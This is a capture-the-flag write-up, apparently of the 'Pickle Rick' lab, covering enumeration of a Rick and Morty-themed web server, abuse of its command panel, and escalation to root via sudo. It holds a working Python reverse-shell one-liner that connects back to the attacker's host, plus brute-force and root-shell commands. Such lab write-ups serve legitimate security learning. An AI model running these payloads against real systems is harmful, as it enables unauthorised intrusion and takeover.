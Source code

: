 ## Target IP: `10.10.44.27`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.44.27 -oN results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache 2.4.41 |

---

### Web Enumeration

Main page displays this message:

```
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

Page source includes:

```html
<!-- Note to self, remember username!
     Username: R1ckRul3s -->
```

---

### Directory Brute Force (Initial Attempt)

```bash
gobuster dir -u http://10.10.44.27 -w /usr/share/dirb/wordlists/common.txt
```

**Found:**

- `/robots.txt` → Contains `Wubbalubbadubdub`
- `/assets/` → Contains images, JS, and CSS files

---

### Downloading All Assets

```bash
wget -r -np -nH --cut-dirs=1 http://10.10.44.27/assets/
```

**Explanation:**

- `r`: Recursive
- `np`: No parent directories
- `nH`: Skip host directory
- `-cut-dirs=1`: Remove `/assets/` from path so files are saved directly

---

### Steganography Check

- Ran `steghide info` on `rickandmorty.jpeg` and `portal.jpg`
- Asked for passphrase
- Tried `binwalk` and `strings` on both → nothing useful

---

### Directory Brute Force (Second Attempt)

```bash
gobuster dir -u http://10.10.44.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip -o dirbust.txt
```

**Found:**

- `/login.php`

---

### Web Login

- Username: `R1ckRul3s`
- Password: `[REDACTED]`
- Successful login

---

### Portal Access

Options displayed:

- Commands
- Potions
- Creatures
- Beth Clone Notes

Used the "Command Panel" to interact.

---

### Command Panel Enumeration

```bash
whoami
# → www-data

ls
# → Sup3rS3cretPickl3Ingred.txt, assets, clue.txt, denied.php, index.html, login.php, portal.php, robots.txt
```

Tried `cat Sup3rS3cretPickl3Ingred.txt` → blocked

Tried:

```bash
less Sup3rS3cretPickl3Ingred.txt
```

- Output: `[REDACTED]` ← First flag

---

### Clue File

```bash
less clue.txt
# → Look around the file system for the other ingredient.
```

---

### Reverse Shell

Checked Python version:

```bash
python3 --version
# → Python 3.8.10
```

Used reverse shell payload from [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
# This is for Python **2** and did NOT work
python -c 'import socket,subprocess,os; ... '
```

**Important mistake:**

This failed because it was for Python 2. Once `python3` was used instead, it worked.

```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.6.24.56",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

---

### Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### Second Flag

```bash
cd /home/rick
cat "second ingredients"
# → [REDACTED]
```

---

### Privilege Escalation

```bash
sudo -l
# → (ALL) ALL → Can run anything as root
```

Used:

```bash
sudo python3 -c 'import os; os.system("/bin/sh")

```

```bash
whoami
# → root
```

Retrieved third flag:

```bash
cat /root/3rd.txt
# → [REDACTED]
```

---

### Flags (Ingredients)

1. **[REDACTED]**
2. **[REDACTED]**
3. **[REDACTED]**
